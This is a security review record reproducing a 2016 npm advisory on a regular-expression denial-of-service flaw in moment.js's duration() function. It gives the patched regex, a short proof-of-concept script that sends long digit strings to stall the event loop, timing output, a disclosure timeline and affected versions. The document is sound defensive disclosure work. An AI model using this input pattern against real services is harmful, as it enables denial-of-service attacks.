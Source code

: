 ```yaml
---
Publication-State: Active
Access: Public
Reviewers:
- Name: Adam Baldwin
  Associated-With-Project: false
  Compensation-Source: external
Domain: Security
Methodology:
- Code-Review
Issues-Identified: Not-Examined
Package-URLs:
- pkg:npm/moment
Review-Date: '2016-01-26'
Scope: Implementation/Full
Schema-Version: '1.0'
SPDX-License-Identifier: CC-BY-4.0
---
```

### Summary
*Regular Expression Denial of Service*<br><br>Recommendation: Please update to version 2.11.2 or greater. If you are unable to update more information is available below.   A fix [has been made available in a pull request](https://github.com/moment/moment/pull/2939). Do not allow untrusted user input into `moment.duration()` or truncate the length of the allowed input to reduce blocking potential.  in moment.js change line 1819 from  `var aspNetRegex = /(\-)?(?:(\d*)[. ])?(\d+)\:(\d+)(?:\:(\d+)\.?(\d{3})?)?/;`   to   `var aspNetRegex = /^(\-)?(?:(\d*)[. ])?(\d+)\:(\d+)(?:\:(\d+)\.?(\d{3})?(?:\d*)?)?$/;`
### Details
moment is vulnerable to regular expression denial of service when user input is passed unchecked into moment.duration() blocking the event loop for a period of time.  "The Regular expression Denial of Service (ReDoS) is a Denial of Service attack, that exploits the fact that most Regular Expression implementations may reach extreme situations that cause them to work very slowly (exponentially related to input size). An attacker can then cause a program using a Regular Expression to enter these extreme situations and then hang for a very long time." [1]  It's not a huge amplification it takes about 25k characters to get 1.1 seconds however that's well under most servers max request size so it's certainly exploitable.  The regular expression in question   moment/2.10.6/moment.js ``` 1679     var aspNetRegex = /(\-)?(?:(\d*)\.)?(\d+)\:(\d+)(?:\:(\d+)\.?(\d{3})?)?/; ```   ### Proof of concept ``` var moment = require('moment');  var genstr = function (len, chr) {     var result = "";     for (i=0; i<=len; i++) {         result = result + chr;     }      return result; }   for (i=20000;i<=10000000;i=i+10000) {     console.log("COUNT: " + i);     var str = '-' + genstr(i, '1')     console.log("LENGTH: " + str.length);     var start = process.hrtime();     moment.duration(str)      var end = process.hrtime(start);     console.log(end); } ```  ### Results ``` $ node moment.js COUNT: 20000 LENGTH: 20002 [ 0, 618931029 ] COUNT: 30001 LENGTH: 30003 [ 1, 401413894 ] COUNT: 40002 LENGTH: 40004 [ 2, 437075303 ] COUNT: 50003 LENGTH: 50005 [ 3, 824664804 ] COUNT: 60004 LENGTH: 60006 [ 5, 651335262 ] ```  ### Timeline: - 10/26/2015 - Initial Discovery - 10/26/2015 - Maintainers notified via email - 12/16/2015 - Maintainers notified via email again - 2/2/2016 - Added information to fix from pull request - 2/3/2016 - 
<br><br>• Affected Versions: <2.11.2
<br>• Patched Versions: >=2.11.2
### Methodology
This review was taken directly from the Security Advisories section of npm's official website.
### External References
['https://www.owasp.org/index.php/Regular_expression_Denial_of_Service_-_ReDoS']
### Disclaimer
All security reviews are conducted on a "best-effort" basis against a software component at a point in time. We make no guarantee as to the quality or completeness of any review. If you believe any content is inaccurate, we encourage you to open an issue or submit a pull request with a correction or improvement.
### License
This text is released under at least the [Creative Commons Attribution 4.0 (CC-BY-4.0) license](https://creativecommons.org/licenses/by/4.0/legalcode.txt). Externally-referenced content may be licensed differently.
